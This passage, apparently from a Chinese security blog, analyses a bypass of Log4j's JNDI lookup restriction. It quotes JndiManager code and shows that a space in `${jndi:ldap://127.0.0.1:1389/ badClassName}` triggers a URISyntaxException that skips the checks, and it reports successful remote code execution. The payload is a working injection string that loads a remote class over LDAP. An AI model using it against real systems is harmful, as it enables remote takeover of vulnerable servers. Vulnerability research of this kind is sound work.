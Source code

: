 由于RCE一定需要加载远程对象，那么避免不了`javaFactory`属性（或者有一些其他思路，笔者刚做Java安全不了解）

看起来无懈可击，然而这里有一处细节问题

```java
public synchronized <T> T lookup(final String name) throws NamingException {
    try {
        URI uri = new URI(name);
        ...
    } catch (URISyntaxException ex) {
        // This is OK.
    }
    return (T) this.context.lookup(name);
}
```

如果发生了`URISyntaxException`异常会直接`this.context.lookup`

能否想办法让`new URI(name);`时候报错但`name`传入`context.lookup(name);`时正常

经过测试发现`URI`中不进行`URL`编码会报这个错，加个空格即可触发`${jndi:ldap://127.0.0.1:1389/ badClassName}`（`不对空格做编码`导致异常，但是`lookup`时候会去掉这个空格）

![img](../assets/2021-12-15-Log4jshell%E5%90%8E%E7%BB%AD/0123.png)

成功RCE（需要用户开启`lookup`功能的基础上才可以）
